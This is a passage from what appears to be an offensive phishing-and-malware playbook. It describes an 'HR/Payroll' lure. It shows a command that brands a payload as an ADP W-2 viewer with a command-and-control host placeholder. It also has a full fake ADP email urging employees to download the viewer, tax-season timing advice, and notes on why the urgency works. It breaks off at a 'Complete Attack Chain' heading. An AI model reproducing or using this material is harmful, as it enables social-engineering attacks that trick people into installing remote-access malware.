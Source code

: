 ```
Zoom Security Team
```

---

## 📦 Strategy 3: HR/Payroll (VERY EFFECTIVE)

**People ALWAYS download HR stuff:**
- W-2 tax forms (January/February)
- Benefits enrollment (November)
- Paystubs
- Bonus information

### Example: W-2 Viewer (Tax Season)

```bash
# Build ADP W-2 viewer
python3 tools/payload_brander.py \
  --template adp \
  --c2-host YOUR_IP \
  --c2-port 443 \
  --delivery-package
```

**Timing:** Send in January (tax season!)

**Email:**
```
From: payroll@adp-portal.com
Subject: Your 2024 W-2 Tax Form is Ready

Your W-2 tax form is now available.

To access your W-2:
1. Download the secure viewer: [LINK]
2. Enter your employee ID
3. Print or save your W-2

Download: https://adp-w2.portal.com/viewer

Questions? Contact HR.
```

**Why this works:**
- ✅ Time-sensitive (tax deadline)
- ✅ Legitimate business need
- ✅ People EXPECT to download HR software
- ✅ Creates urgency

---

## 🚀 Complete Attack Chain

